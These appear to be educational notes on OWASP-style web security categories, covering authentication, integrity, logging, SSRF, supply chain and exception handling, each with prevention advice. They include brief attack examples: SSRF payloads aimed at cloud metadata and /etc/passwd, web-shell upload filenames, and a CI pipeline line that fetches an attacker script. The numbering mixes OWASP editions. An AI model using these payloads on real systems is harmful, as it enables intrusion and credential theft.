






# Web Application Security Notes — Part 2

**Covers:** A07 Identification & Authentication Failures · A08 Software & Data Integrity Failures · A09 Security Logging & Monitoring Failures · A10 Server-Side Request Forgery (SSRF) · A11 Software Supply Chain Failures · A10:2025 Mishandling of Exceptional Conditions

---

## A07 — Identification & Authentication Failures

### Introduction

This happens when a system does not properly verify who the user is, or allows login bypass, weak passwords, or poor session handling. If the system can't reliably confirm identity, attackers can pretend to be you.

### Why These Failures Happen

- Weak or no password policy
- No verification on login or sensitive actions
- Poor session management
- Allowing brute-force or unlimited login attempts
- Not using MFA (Multi-Factor Authentication)
- Exposing session IDs in URLs
- Using outdated or weak authentication methods

### Attack Surface Overview



### Simple Examples

1. **Weak Passwords Allowed** — system accepts `12345`, `password`, `test123`.
2. **No Rate Limiting** — attackers try thousands of combinations unblocked.
3. **Login Bypass** — special patterns/tricks bypass login entirely.
4. **Session ID in URL** — `example.com/dashboard?sessionID=ABC123` grants access to anyone with the link.
5. **Session Not Expiring** — login stays active for days/weeks, letting attackers reuse stolen cookies.
6. **No MFA** — password-only login; one leak = full account compromise.
7. **Forgot Password Without Verification** — reset email sent without confirming identity.

### Common Attacks

- Brute-force attacks
- Credential stuffing
- Session hijacking
- Account takeover
- Privilege escalation

### Prevention

1. **Enforce Strong Password Policies** — minimum length, no common/leaked passwords, use a blacklist.
2. **Add MFA** — OTP, authenticator apps, hardware keys.
3. **Rate Limiting & Lockout** — stop brute-force attacks.
4. **Secure Session Management** — secure cookies, auto-expire sessions, regenerate session IDs after login.
5. **Avoid Session ID in URL** — always store in secure cookies.
6. **CAPTCHA on Suspicious Activity** — block bots from login.
7. **Secure Forgot-Password Flow** — confirm with OTP or email verification.

### Real-World Examples

| Scenario | What Happened | Authentication Issue |
|---|---|---|
| Attacker logged in using common password | User password was "12345" | Weak password allowed |
| Thousands of attempts per minute | No rate limit on login | Brute-force attack |
| User's account hijacked | Session ID leaked in URL | Session hijacking |
| Password reset abused | No identity verification | Reset without OTP/email check |

### Testing Tools

| Tool | Purpose |
|---|---|
| Nmap | Check open ports, identify exposed login services |
| Hydra | Test weak passwords & brute-force |
| Burp Suite Community | Analyze login flow, session handling |
| Nikto | Detect weak server configs related to authentication |

---

## A08 — Software & Data Integrity Failures

### Introduction

This happens when a system does not verify the integrity of software updates, application code, plugins, external data, or CI/CD pipelines. Attackers can modify software, inject malicious code, or tamper with data when no integrity check exists — like downloading an app update without checking if it's from the real developer.

### Why These Failures Happen

- No signature verification on updates
- Trusting files, scripts, or dependencies blindly
- Insecure CI/CD pipeline
- Using untrusted plugins or third-party code
- Allowing anyone to push to production
- No integrity validation on data flows

### CI/CD Attack Chain



### Simple Examples

1. **Fake Software Update Installed** — user installs a tampered update.
2. **Modified JavaScript from CDN** — attackers inject malicious JS into CDN-hosted files.
3. **Compromised Git Repo** — anyone pushes changes without review.
4. **CI/CD Pipeline Hack** — attacker injects code during build or deployment.
5. **Tampered Configuration Files** — `.json`, `.yaml`, `.env` modified.
6. **Untrusted Plugins/Packages** — malicious NPM or Python package downloaded.
7. **No Integrity Check on Uploaded Files** — system accepts manipulated/harmful files.

### Common Attacks

- Supply chain attacks
- Malicious code injection
- Backdoors added to software
- CI/CD takeover
- Code tampering
- Fake updates (update hijacking)
- Data manipulation attacks

Attackers target the weakest link: software dependencies, build tools, or update mechanisms.

### Prevention

1. **Secure CI/CD Pipeline** — restricted access, MFA for developers, signed commits, code review required.
2. **Use Trusted Sources Only** — install plugins/packages from official sources.
3. **Lock Dependencies** — `package-lock.json`, `requirements.txt`, `Pipfile.lock` to ensure the same version everywhere.
4. **Store Config Files Securely** — protect `.env`, `.json`, `.yaml`, `.config`.
5. **Validate Data Integrity** — digital signatures, hash verification, MAC (Message Authentication Code).
6. **Protect Build Servers** — isolate build environments from the internet.

### Advanced: File Upload Integrity Issues

File upload features are a major risk when integrity checks are missing.

**Common File Upload Attack Scenarios**

1. **Malicious File Upload (Web Shell / Backdoor)** — attacker uploads `.php`/`.asp`/`.jsp` disguised as an image: `malware.php`, `image.jpg.php`, `shell.php;.jpg`. Poor file-type verification → **remote code execution**.
2. **Tampered Documents** — malicious `.docm` with macros, infected `.pdf`, compromised `.xlsm` — without scanning, these infect users.
3. **Changing File Content After Upload** — no stored file hashes → attackers modify uploaded files secretly.
4. **Broken Validation** — only checking filename, not content (e.g. `virus.jpg` actually contains PHP code).
5. **No Antivirus / Integrity Scan on Upload** — unsafe files stored directly on the server.

### Real-World Examples

| Scenario | What Happened | Integrity Issue |
|---|---|---|
| SolarWinds Hack | Attackers modified update files | Supply chain compromise |
| Malicious NPM package | Attackers uploaded a fake library | Using untrusted dependencies |
| Fake Android update | Users installed malware update | No signature verification |
| Git repo hijacked | Hackers pushed malicious code | Weak access control in CI/CD |

### Tools

- **Nmap** — scan servers for outdated or tampered software
- **Nessus** — detect compromised or unpatched components

---

## A09 — Security Logging & Monitoring Failures

### Introduction

These failures happen when a system doesn't properly record, detect, or alert on suspicious activities. If your system doesn't log important events or alert on attacks, hackers can break in and stay hidden — like a CCTV camera that's turned off or not being watched.

### Why Logging & Monitoring Failures Happen

- No logs for critical actions (login, payment, admin changes)
- Logs exist but are incomplete or unclear
- Logs stored on the same server attackers can delete
- No real-time alerts
- No monitoring team or SIEM tool
- Logs not reviewed regularly
- Too much noise (useless logs), no signal

### Detection Pipeline



### Simple Examples

1. **Failed Logins Not Logged** — brute-force attack goes unnoticed.
2. **Admin Actions Not Logged** — attacker becomes admin with no trace.
3. **Password Reset Attempts Not Logged** — abuse goes unnoticed.
4. **No Alert for Suspicious Activity** — multiple logins from different countries ignored.
5. **Logs Stored Locally** — attackers delete evidence after hacking.
6. **No Monitoring Dashboard** — logs exist but nobody watches them.
7. **No Logging for File Upload/API Calls** — dangerous activity invisible.

### Common Attacks That Become Invisible

- Account takeover (no failed-login logs)
- Unauthorized access (no role-change logs)
- API abuse (no request logging)
- Data exfiltration (no download logs)
- Malicious file upload (upload events not tracked)
- Server breach (attacker deletes local logs)

Without logs, you cannot detect, investigate, or recover from attacks.

### Prevention

1. **Log All Critical Events** — login/logout, failed logins, password reset, admin actions, file uploads, payments, API access, permission changes.
2. **Use Centralized Logging** — SIEM systems, ELK stack, CloudWatch/Azure Monitor, dedicated security servers attackers cannot delete.
3. **Add Alerts for Suspicious Behavior** — many failed logins, login from new country/device, large data downloads, unexpected admin actions.
4. **Protect Logs** — read-only logs, centralized backups, no logs stored only on production machines.
5. **Implement Real-Time Monitoring** — systems that actively watch logs.
6. **Keep Logs Clean & Structured** — use JSON or standard formats.
7. **Enable Audit Logging** — record actions by high-privilege users.

### Real-World Examples

| Scenario | What Happened | Logging Issue |
|---|---|---|
| Brute-force attack | Thousands of login attempts | Failed logins not recorded |
| Admin hacked | Attacker changed permissions | No audit log for role changes |
| Malware uploaded | Dangerous file accepted | Upload event not logged |
| Database stolen | Huge download | No alert for large data access |

### Tools

| Tool | Purpose |
|---|---|
| Wazuh | Open-source SIEM with alerts |
| OSSEC | Host-based monitoring |
| Graylog | Centralized logging |
| ELK Stack | Elasticsearch, Logstash, Kibana — visual monitoring |
| Fail2Ban | Blocks IP after failed logins |
| Splunk Free | Logs + dashboards |
| Nmap | Check exposed logging services |

---

## A10 — Server-Side Request Forgery (SSRF)

### What is SSRF?

SSRF happens when an attacker tricks your server into making **unauthorized requests** to internal systems, cloud metadata services, private APIs, or localhost services. The attacker can't directly reach these systems, so they use your server as a **proxy** — like asking a security guard to open a restricted door by pretending to be someone else.

### Why SSRF Happens

- Server accepts user input as a URL
- Application fetches remote files without validation
- Image preview, PDF generation, or webhook features trust user input
- No allowlist of safe domains
- Poor input validation
- Cloud metadata endpoints exposed

### Attack Flow



### Simple Examples

1. **URL Parameter Directly Used by Server** — `?url=http://example.com/image.jpg` changed to `?url=http://127.0.0.1/admin` reaches the internal admin panel.
2. **Accessing Cloud Metadata (very dangerous)** — `http://169.254.169.254/latest/meta-data/` → steals AWS tokens → full server takeover.
3. **Scanning the Internal Network** — `?url=http://10.0.0.5:8080` maps internal services.
4. **Reading Local Files via File Protocol** — `?url=file:///etc/passwd` leaks server files.
5. **SSRF via Image Upload/Preview** — server downloads the image from an attacker-provided URL.
6. **PDF Generation Tools** — tools like `wkhtmltopdf` fetch external URLs.

### What Attackers Can Do

- Read internal applications
- Read cloud metadata → steal tokens
- Scan internal networks (port scanning)
- Hit database/admin panels
- Bypass firewalls
- Trigger internal API functions
- Read sensitive local files
- Achieve RCE in some cases

This is one of the most dangerous vulnerabilities in cloud environments.

### Prevention

1. **Use an Allowlist (Recommended)** — allow only safe domains (e.g. `images.example.com`, `api.example.com`).
2. **Block Private/Internal IP Ranges**:

```
127.0.0.1
10.0.0.0/8
172.16.0.0/12
192.168.0.0/16
169.254.169.254 (Cloud metadata)
```

3. **Validate URL Input Properly** — allow only HTTP/HTTPS; block `file://`, `gopher://`, `ftp://`, `mailto://`; normalize and re-check the URL.
4. **Disable Unnecessary Protocols** — prevent non-HTTP ports.
5. **Add Timeouts & Limit Redirects** — avoid long or chained requests.
6. **Use a Proxy with Domain Filtering** — block internal requests.
7. **For Cloud Servers** — block the metadata endpoint, use IMDSv2 (AWS), restrict IAM roles.

### Real-World Examples

| Scenario | What Happened | SSRF Issue |
|---|---|---|
| AWS server hacked | Attacker accessed metadata URL | No block on 169.254.169.254 |
| Admin panel exposed | Request redirected to localhost | URL not validated |
| Internal API leaked | Attacker scanned internal IPs | No request filtering |
| Sensitive files read | `file://` used | Protocol not validated |

### Testing Tools

| Tool | Purpose |
|---|---|
| Burp Suite Community | Best tool for SSRF testing |
| OWASP ZAP | Detects SSRF patterns |
| Nmap | Scan local/internal services via SSRF |
| dnslog.cn / Interactsh | Check external (out-of-band) callbacks |
| SSRFmap | Automated SSRF scanner |

---

## A11 — Software Supply Chain Failures

### Introduction

The software supply chain covers all components involved in building, testing, and deploying software — source code, third-party libraries, APIs, CI/CD pipelines, and build tools. When security is weak at any stage, attackers can inject malicious code, steal data, or compromise entire systems.

### Supply Chain Stages & Failure Points



### Categories of Supply Chain Failures

- **Dependency-Based Attacks** — compromise via third-party libraries or packages.
- **Pipeline Compromise** — attackers manipulate CI/CD pipelines to inject malicious code.
- **Code Repository Attacks** — unauthorized access to source code systems (Git).
- **Update/Distribution Attacks** — malicious code distributed through software updates.

### Common Attack Scenarios

- Installing malicious packages from public repositories
- Using outdated vulnerable libraries
- Typosquatting (e.g. `react` → `recat`)
- Modifying CI/CD build scripts
- Unauthorized code push to repositories
- Hardcoded API keys and exposed tokens
- Malicious software updates

### Dependency Attack Techniques

- **Typosquatting** — creating packages with similar names to popular ones.
- **Backdoored Libraries** — hidden malicious code inside otherwise-legitimate libraries.

### Example Exploits

| Attack Type | Malicious Action | Example |
|---|---|---|
| Dependency Confusion | Install malicious package | `pip install internal-lib` |
| Typosquatting | Trick developer | `npm install expresss` |
| Pipeline Injection | Modify build | `run: wget attacker.sh` |
| Secret Leak | Expose API key | `.env` file made public |
| Backdoor Injection | Hidden code execution | Data exfiltration |

### Prevention

- Use trusted repositories and lock dependency versions
- Perform regular vulnerability scanning
- Restrict CI/CD pipeline access
- Avoid hardcoded secrets — use secure tokens
- Implement RBAC and least-privilege access
- Mandatory code reviews and static analysis
- Use secret vaults and rotate keys regularly

### Detection & Response

- Monitor dependency changes and pipeline activity
- Track unusual builds and access logs
- Revoke compromised tokens
- Rollback affected builds
- Patch vulnerabilities immediately

### High-Priority Areas to Test

- Dependency managers (npm, pip, Maven)
- CI/CD pipelines
- Source code repositories (GitHub, GitLab)
- Package registries
- Secret storage (`.env`, config files)
- Third-party integrations (APIs, webhooks)

### Summary Table

| Layer | Risk | Mitigation |
|---|---|---|
| Dependency | Malicious packages | Version locking |
| Pipeline | Code injection | Access control |
| Code Repo | Unauthorized access | MFA |
| Secrets | Leakage | Secret vault |
| Deployment | Compromised builds | Verification |

---

## A10:2025 — Mishandling of Exceptional Conditions

*When applications fail dangerously instead of failing safely.*

### What Is It?

Mishandling of Exceptional Conditions happens when applications fail to safely handle unexpected situations, errors, invalid input, or abnormal system conditions. Instead of **failing securely**, the application **fails dangerously**:

- Application crashes
- Sensitive errors appear
- System freezes
- Memory exhaustion occurs
- Invalid input breaks functionality

### What Counts as an Exceptional Condition?

- Invalid input
- Unexpected errors
- Server overload
- Resource exhaustion
- Application crashes
- Network or database failures
- Unexpected user actions

### Fail-Safe vs Fail-Dangerous



### Common Examples

1. **Detailed Error Messages** — exposing stack traces, internal paths, DB details, source code info:
   ```
   SQL Error at line 52
   Database password invalid
   Path: /var/www/html/login.php
   ```
   Attackers gain valuable reconnaissance information from these.

2. **Application Crashes** — unexpected input causes server crash, service disruption, or DoS.

3. **Resource Exhaustion** — huge files, infinite requests, or large payloads cause memory/CPU exhaustion.

4. **Unsafe Fallback Logic** — e.g. authentication service fails → application automatically allows access. Major security risk.

5. **Missing Timeout Controls** — long-running requests consume server resources endlessly.

### Vulnerable vs Secure Response

**Vulnerable Response**
```
Database connection failed.
Username: root
Password: root123
```

**Secure Response**
```
An unexpected error occurred. Please try again later.
```

### How to Identify During Testing

| Method | What to Do | What to Observe |
|---|---|---|
| Send Invalid Input | `' " NULL <test>` | Error messages, crashes, unhandled exceptions |
| Test Large Payloads | Upload huge files, large JSON, long strings | Resource handling behavior |
| Stress Test APIs | Rapid/concurrent requests, heavy traffic | Crashes, timeouts, resource exhaustion |

### Impact

- Information disclosure
- Denial of Service
- System crashes
- Service downtime
- Unstable applications
- Security bypasses
